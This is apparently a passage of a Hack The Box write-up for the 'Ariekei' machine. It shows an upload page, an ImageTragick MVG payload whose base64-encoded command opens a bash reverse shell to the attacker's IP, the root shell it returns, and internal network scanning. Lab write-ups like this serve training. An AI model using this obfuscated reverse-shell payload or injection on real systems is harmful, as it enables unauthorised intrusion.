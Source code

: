 ```python
===============================================================
/upload               (Status: 200) [Size: 1656]
```

We see an upload page with image upload option.
![[Pasted image 20210721184522.png]]

The source code shows two clown faces `happy` and `sad` which gives us the fact that it may be vulnerable to the `imagetragick` exploit.
![[Pasted image 20210721184628.png]]

# Initial FootHold as root on calvin
We create a file with the following contents.
```python
┌─[Magisk@Xyan1d3]─[10.10.14.23]─[~/htb/ariekei/www]
└──╼ # cat magisk.mvg
push graphic-context 
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"|echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMy84ODg4IDA+JjE= |base64 -d|bash;rm -rf "/dev/null)'
pop graphic-context
```

We get a shell back as `root` on `calvin`.
![[Pasted image 20210721184911.png]]
```python
┌─[Magisk@Xyan1d3]─[10.10.14.23]─[~/htb/ariekei]
└──╼ # shelter rev bash
[+] Copied reverseshell payload echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMy84ODg4IDA+JjE= |base64 -d|bash
[+] Starting up Shell Handler...
Listening on 0.0.0.0 8888
Connection received on 10.10.10.65 40510
[root@calvin app]# whoami
whoami
root
```

We load `ifconfig` on the box and find out our ip address.
```python
[root@calvin ~]# ./ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.23.0.11  netmask 255.255.255.0  broadcast 0.0.0.0
        ether 02:42:ac:17:00:0b  txqueuelen 0  (Ethernet)
        RX packets 1692118  bytes 144621070 (137.9 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1608582  bytes 162556039 (155.0 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
[root@calvin ~]# ./nmap -sn 172.23.0.0/24

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2021-07-21 14:44 UTC
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for 172.23.0.1
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.000050s latency).
MAC Address: 02:42:0E:A6:74:56 (Unknown)
Nmap scan report for waf-live.arieka-live-net (172.23.0.252)
Host is up (-0.10s latency).
MAC Address: 02:42:AC:17:00:FC (Unknown)
Nmap scan report for bastion-live.arieka-live-net (172.23.0.253)
Host is up (-0.10s latency).
MAC Address: 02:42:AC:17:00:FD (Unknown)
Nmap scan report for calvin.ariekei.htb (172.23.0.11)
```